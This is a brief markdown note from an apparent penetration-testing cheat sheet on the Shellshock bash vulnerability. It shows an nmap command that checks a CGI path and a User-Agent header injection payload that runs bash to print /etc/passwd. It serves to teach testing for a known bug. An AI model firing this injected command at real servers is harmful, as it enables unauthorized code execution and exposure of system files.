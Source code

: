 ```yaml
---
title: 'Shell-Shock Attack'
description: 'Vulnerability in the bash shell.'
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
slug: vuln/shell-shock
---
```


## Information

- Bash mistakenly executes trailing commands after a series of characters: () {:;};.

- Locate an input that allows you to communicate with Bash.

- CGI file.

```bash

# Verify if vulnerable.
nmap -sCV target --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

# Intercept with burpsuite, and inject characters in User-Agent.
# () {:;}; echo; echo; /bin/bash -c 'cat /etc/passwd'

```
